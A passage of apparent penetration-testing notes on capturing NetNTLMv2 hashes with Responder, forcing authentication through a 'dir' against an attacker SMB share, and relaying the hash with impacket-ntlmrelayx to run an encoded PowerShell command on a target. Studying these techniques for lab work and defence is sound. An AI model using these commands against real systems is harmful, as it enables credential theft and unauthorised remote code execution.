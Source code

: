 ```bash
// On Kali
kali@kali:~$ ip -br a sh
tun0        UNKNOWN        192.168.119.2/24 <ipv6>/64
kali@kali:~$ sudo responder -I tun0

// On compromised device as a non-admin
C:\Windows\System32> dir \\192.168.119.2\test
```

At this point, Responder should have captured the user's NTLMv2-SSP Hash which we can save to a file for cracking. Hashcat uses mode 5600 for NetNTLMv2.

### Relaying Net-NTLMv2

Similar to sending the NetNTLMv2 SMB communication to Responder, in this case we'll be forwarding along the hash to another device (we're assuming the time taken to crack the hash isn't feasible). To do so, we'll use the tool _**impacket-ntlmrelayx**_.

Example use-case, we'll be disabling the HTTP server, adding support for SMB2, and targeting 192.168.50.212. Lastly, we'll set our command. **Remember to UTF-16LE encode the powershell before base64ing it**:\
`impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."`
